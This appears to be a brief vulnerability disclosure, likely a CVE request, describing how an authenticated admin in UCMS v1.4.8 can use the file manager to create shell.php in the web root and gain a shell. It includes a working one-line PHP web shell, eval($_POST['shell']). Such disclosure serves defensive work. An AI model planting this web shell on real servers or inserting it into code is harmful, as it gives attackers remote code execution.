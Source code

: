 
#UCMS v1.4.8 getshell


###Vulnerability Version :

1.4.8

Open the URL [http://127.0.0.1/login.php](http://127.0.0.1/login.php), Login to the background.

Open the URL [http://127.0.0.1/ucms/index.php?do=sadmin_file](http://127.0.0.1/ucms/index.php?do=sadmin_file)

###Create a shell.php file to submit

![submit](https://github.com/mySQLserver010/CVE_Request/blob/master/CVE_Request/img/UCMS.png)


![submit](/img/UCMS2.png)

###Put the request just in the root directory


![submit](/img/UCMS3.png)

#### found the poc： <?php eval($_POST['shell']);?> 

![submit](/img/UCMS5.png)


###getshell

![submit](/img/UCMS4.png)


